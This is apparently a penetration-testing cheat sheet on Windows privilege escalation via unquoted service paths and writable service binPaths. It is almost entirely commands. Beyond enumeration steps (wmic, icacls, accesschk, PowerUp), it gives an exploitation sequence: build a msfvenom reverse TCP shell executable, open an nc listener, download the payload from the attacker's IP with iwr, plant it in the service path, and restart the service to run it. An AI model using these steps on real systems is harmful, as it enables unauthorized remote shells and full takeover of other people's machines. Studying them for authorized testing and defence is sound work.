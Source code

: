
## Privilege Escalation

### Unquoted Service Path

- > Detection

```
wmic service get Name,State,PathName | findstr "Program"
sc qc <service_name>
\\\\ BINARY_PATH_NAME display Unquoted Service Paths, without ""
powershell "get-acl -Path 'C:\\Program Files (x86)\\System Explorer' | format-list"

```

- > Exploitation - attacker

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe
nc -nvlp <port>

```

- > Exploitation - windows

```
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>

```

```
sc stop <service_name>
sc start <service_name>

```

or

```
shutdown /r

```

### binPath - Services [PrivEsc]

- > Detection

```
. .\\PowerUp.ps1
Get-ModifiableService -Verbose

```

or

```
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"
wmic service get Name,State,PathName | findstr "Program"
icacls <pathname>
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>

```
